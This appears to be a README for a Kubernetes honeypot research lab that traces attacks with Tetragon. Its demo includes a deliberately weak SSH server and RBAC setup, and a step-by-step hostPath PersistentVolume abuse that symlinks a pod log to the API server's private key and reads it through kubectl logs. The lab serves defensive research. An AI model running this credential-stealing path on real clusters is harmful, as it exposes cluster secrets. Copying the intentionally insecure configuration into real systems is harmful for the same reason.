

# Honeypots Research

## Simple Attack Tree

As a simple example attack tree, we will look at the attack path made possible if an attacker can create hostPath Persistent Volumes on a cluster, inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html).



## Known Issues
tetragon traces are not all created equal, some need improvments, especially the logs from kafka/fluentd/cert-man etc should be ignored
fluentd keeps on crashing, needs investigation
all logs currently go to topic "cr1" on kafka, need filter in fluentd
need schema
wait-conditions in make-file are flaky at best, need fine-tuning
currently vcluster is switched off, kyverno as well -> needs to be retested with those turned on


## Demo

Bring all the infra up (known issue: wait conditions):
```bash
make all-up
```
Put the traces on
```bash
make traces
```

Go to second shell for STDOUT observations (dont kill this shell)
```bash
make secondshell-on
```
Back to first shell, run
```bash
make attack
```


Spin up a kind cluster:

```bash
make cluster-up
```

Install [Tetragon](https://tetragon.io/):

```bash
make tetragon-install
```

Set up a [vcluster](https://www.vcluster.com/) within our kind cluster where our honeypot workloads will run:

```bash
make vcluster-deploy
```

Install [Kyverno](https://kyverno.io/) and enforce baseline Pod Security Standards across the cluster:

```bash
make kyverno-install
```

Install an intentionally vulnerable SSH server:

```bash
make ssh-install
```

Deploy a local storage class for our vcluster:

```bash
make sc-deploy
```

Set up a potentially dangerous Cluster Role and Cluster Role Binding enabling a default Service Account to create pods, persistent volumes, and persistent volume claims:

```bash
make rbac
```

Set up port forwarding to our SSH server:

```bash
make port-forward
```

Switch to a new terminal tab and copy some scripts over to the SSH server. The password is `root`. This represents initial attacker access to our honeypot cluster, via credential compromise:

```bash
make copy-scripts
```

SSH into the server using the same password:

```bash
make ssh-connect
```

From within the SSH session, run a malicious script which will create a HostPath type PersistentVolume which will allow a pod to access `/var/log` on the host (inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html)), using the [Python Kubernetes client library](https://github.com/kubernetes-client/python):

```bash
source priv-create.sh
```

Switch to a new terminal tab and observe the dangerous pod running:

```bash
kubectl get po
```

Let's show that an attacker could use this pod to read arbitrary information from a node in the cluster (in this case we will read the K8s API server's private key). Exec into the pod:

```bash
make exec
```

Run the following from within the pod to write a symlink to its `0.log` file, which is followed by the Node upon `kubectl logs PODNAME` in order to read any file from the Node. `cd` into the directory `/hostlogs/pods/vcluster_bad-pv-pod_......../bad-pv-pod/` and run the following:

```bash
rm 0.log && ln -s /etc/kubernetes/pki/apiserver.key 0.log
```

If the service account compromised by our attacker could inspect the logs of the containers it can create, the attacker could now run:

```bash
k logs bad-pv-pod --tail=-1
```

Note that we can see the first line of the private key.

## Teardown

```bash
make cluster-down
```

## Note for Mac Users
Certain Docker Desktop versions will lead to the following error 
```
level=fatal msg="Load overlay network failed" error="program cil_from_overlay: replacing clsact qdisc for interface cilium_vxlan: operation not supported" interface=cilium_vxlan subsys=datapath-loader
```
downgrading or using an alternative (Orbstack) will solve this . 
